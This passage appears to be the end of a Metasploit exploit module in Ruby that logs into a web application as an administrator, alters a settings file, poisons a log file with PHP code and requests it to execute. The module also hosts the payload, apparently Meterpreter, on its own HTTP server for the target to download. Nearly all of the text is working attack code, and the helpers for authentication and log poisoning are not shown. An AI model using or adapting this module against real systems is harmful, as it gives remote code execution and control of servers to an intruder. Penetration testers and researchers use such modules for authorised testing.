         res = post_log_file(data)

        print_error("Failed - #{action}") unless res && res.code == 301

        print_good("Succeeded - #{action}")
      end

      def check_logfile_request(res, action)
        fail_with(Failure::Unknown, "#{action} - no reply") unless res

        unless res.code == 301
          print_error("Failed - #{action}")
          fail_with(Failure::UnexpectedReply, "Failed - #{action}")
        end

        print_good("Succeeded - #{action}")
      end

      def execute_php
        print_status("Executing php code in log file: #{@php_fname}")
        res = send_request_cgi(
          {
            'uri' => normalize_uri(target_uri, @php_fname),
            'keep_cookies' => true
          }
        )
        fail_with(Failure::NotFound, "#{peer} - Not found: #{@php_fname}") if res && res.code == 404
        register_files_for_cleanup(@php_fname)
        register_files_for_cleanup(@meterpreter_fname) unless @meterpreter_fname.nil? || @meterpreter_fname.empty?
      end

      def on_request_uri(cli, _request)
        send_response(cli, payload.encoded, { 'Content-Type' => 'text/plain' })
        print_good("#{peer} - Payload sent!")
      end

      def start_http_server
        start_service(
          {
            'Uri' => {
              'Proc' => proc do |cli, req|
                on_request_uri(cli, req)
              end,
              'Path' => resource_uri
            }
          }
        )
        @download_url = get_uri
      end

      def exploit
        start_http_server
        authenticate unless @authenticated
        fail_with(Failure::NoAccess, datastore['USER'].to_s) unless @authenticated
        fail_with(Failure::NoAccess, "#{datastore['USER']} does not have administrative rights!") unless @is_admin
        modify_system_settings_file
        poison_log_file
        execute_php
      ensure
        restore if datastore['RESTORECONF']
      end
    end